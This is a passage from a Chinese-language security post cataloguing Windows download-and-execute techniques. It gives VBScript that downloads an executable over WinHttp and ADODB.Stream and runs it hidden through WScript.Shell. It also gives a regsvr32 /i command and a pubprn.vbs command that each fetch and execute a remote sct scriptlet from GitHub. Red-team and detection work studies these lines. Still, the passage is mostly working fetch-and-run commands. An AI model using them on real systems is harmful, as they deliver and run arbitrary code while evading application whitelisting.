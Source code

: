 **注：**

该思路来自@mosin @索马里海贼

也可以通过`WinHttp.WinHttpRequest.5.1`实现，代码如下：

```
Const adTypeBinary = 1
Const adSaveCreateOverWrite = 2
Dim http,ado
Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
http.open "GET","https://github.com/3gstudent/test/raw/master/putty.exe",False
http.send
Set ado = createobject("Adodb.Stream")
ado.Type = adTypeBinary
ado.Open
ado.Write http.responseBody
ado.SaveToFile "c:\download\a.exe"
ado.Close
```

**注：**

该思路来自@ogre 

vbs脚本实现的执行代码

```
WScript.CreateObject("WScript.Shell").Run "c:\download\a.exe",0,true 
```

依旧是以sct文件作为模板，添加功能，生成downloadexec2.sct 

**实现功能：**

`regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/test/master/downloadexec2.sct scrobj.dll`


### 5、pubprn.vbs

利用pubprn.vbs能够执行远程服务器上的sct文件(sct文件格式有区别)

**思路：**

regsve32->VBScript->download&exec

代码已上传，地址为https://raw.githubusercontent.com/3gstudent/test/master/downloadexec3.sct

**实现功能：**

`cscript /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs 127.0.0.1 script:https://raw.githubusercontent.com/3gstudent/test/master/downloadexec3.sct`

当然，也可使用如下思路实现(代码略)：

regsve32->JScript->powershell->download&exec

### 6、msiexec
